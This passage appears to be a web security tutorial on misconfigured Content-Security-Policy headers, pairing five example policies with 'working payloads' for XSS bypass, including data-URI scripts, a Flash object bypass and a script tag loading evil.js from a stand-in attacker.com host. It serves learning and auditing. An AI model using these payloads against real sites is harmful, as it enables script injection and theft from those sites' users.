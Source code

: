 Analyze the CSP policy properly. There are few online tools that are very helpful.

1\. [https://csp-evaluator.withgoogle.com/](https://csp-evaluator.withgoogle.com/)  
2\. [https://cspvalidator.org/](https://cspvalidator.org/#url=https://cspvalidator.org/)

Below is the screenshot of how they evaluate and provide you results.

![](https://miro.medium.com/max/60/1*UqmPG_15m90O6glKsTdvXw.png?q=20)

![](https://miro.medium.com/max/1400/1*UqmPG_15m90O6glKsTdvXw.png)

**Scenario** : **1**

Content-Security-Policy: script-src [https://facebook.com](https://facebook.com/) https://google.com '**unsafe-inline**' https://\*; child-src 'none'; report-uri /Report-parsing-url;

By observing this policy we can say it's damn vulnerable and will allow inline scripting as well . The reason behind that is the usage of unsafe-inline source as a value of script-src directive.

working payload : "/><script>alert(1337);</script>

**Scenario** : **2**

Content-Security-Policy: script-src [https://facebook.com](https://facebook.com/) [https://google.com](https://google.com/) '**unsafe-eval**' data: [http://\*;](https://*;) child-src 'none'; report-uri /Report-parsing-url;

Again this is a misconfigured CSP policy due to usage of unsafe-eval.

working payload : <script src="data:;base64,YWxlcnQoZG9jdW1lbnQuZG9tYWluKQ=="></script>

**Scenario** : **3**

Content-Security-Policy: script-src 'self' [https://facebook.com](https://facebook.com/) [https://google.com](https://google.com/) **https: data \*;** child-src 'none'; report-uri /Report-parsing-url;

Again this is a misconfigured CSP policy due to usage of a wildcard in script-src.

working payloads :"/>'><script src=https://attacker.com/evil.js></script>"/>'><script src=data:text/javascript,alert(1337)></script>

**Scenario**: **4**

Content-Security-Policy: script-src 'self' report-uri /Report-parsing-url;

Misconfigured CSP policy again! we can see object-src and default-src are missing here.

working payloads :<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></object>">'><object type="application/x-shockwave-flash" data='https: //ajax.googleapis.com/ajax/libs/yui/2.8.0 r4/build/charts/assets/charts.swf?allowedDomain=\\"})))}catch(e) {alert(1337)}//'>

<param name="AllowScriptAccess" value="always"></object>

**Scenario**: **5**

Content-Security-Policy: script-src 'self'; object-src 'none' ; report-uri /Report-parsing-url;

we can see object-src is set to none but yes this CSP can be bypassed too to perform XSS. How ? If the application allows users to upload any type of file to the host. An attacker can upload any malicious script and call within any tag.
